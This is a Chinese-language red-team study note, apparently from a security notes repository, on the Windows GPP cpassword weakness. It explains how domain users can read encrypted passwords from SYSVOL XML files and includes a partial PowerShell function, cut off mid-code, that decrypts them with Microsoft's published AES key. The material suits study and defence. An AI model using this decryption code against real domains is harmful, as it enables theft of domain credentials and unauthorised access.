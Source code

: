 ### GPP

关于 windows 组策略的基本知识点可见笔记 [组策略](../../../Integrated/Windows/笔记/组策略.md)

在 GPP 出现之前，很多统一管理的操作只能通过脚本来实现，而 GPP 方便和简化了这样的管理,GPP 你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用。

注 : GPP漏洞只在2008没打补丁版本上存在，超过2008版本的系统是没办法写入密码的。

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹 \SYSVOL 下，默认所有域内用户可访问，虽然被加密，但很容易被解密,访问 XML 文件，利用 AES 私钥可以解密 GPP 密码。

在2012年前的某些点外，微软在 MSDN 上发布了 AES 的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对 SYSVOL 拥有读权限。在域里的任何用户可以搜索 SYSVOL 共享中的带有 cpassword 字样的 XML 文件，里面包含了 AES 加密的密码。

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/2.png)

- 微软在 MSDN 上发布的 AES 加密密钥（共享密钥） : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

使用 PowerShell 脚本解密 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

参考 https://xz.aliyun.com/t/1653 ,可简化 powershell 脚本如下,替换其中 GPP 密码即可
```powershell
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)
```